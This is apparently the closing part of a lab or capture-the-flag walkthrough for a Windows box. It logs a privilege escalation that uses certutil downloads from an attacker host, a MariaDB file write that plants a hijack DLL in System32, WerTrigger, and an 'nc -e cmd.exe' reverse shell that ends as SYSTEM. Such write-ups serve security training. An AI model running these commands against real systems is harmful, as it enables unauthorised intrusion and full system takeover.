c:\temp>certutil -urlcache -f http://192.168.45.5/WerTrigger.exe WerTrigger.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/Report.wer Report.wer
****  Online  ****
CertUtil: -URLCache command completed successfully.

c:\temp>certutil -urlcache -f http://192.168.45.5/phoneinfo.dll phoneinfo.dll
****  Online  ****
CertUtil: -URLCache command completed successfully.

MariaDB [(none)]> select load_file('C:\\temp\\phoneinfo.dll') into dumpfile "C:\\Windows\\System32\\phoneinfo.dll";
Query OK, 1 row affected (0.254 sec)

#After running WerTrigger.exe, we won't receive any prompt but we can still enter commands to execute.
c:\temp>WerTrigger.exe
c:\temp\nc.exe -e cmd.exe 192.168.45.5 445
```

```bash
┌──(root㉿kali)-[/home/kali/Documents/pg_practice/craft2]
└─# nc -lvp 445
listening on [any] 445 ...
connect to [192.168.45.5] from craft.offsec [192.168.159.188] 49770
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

</details>
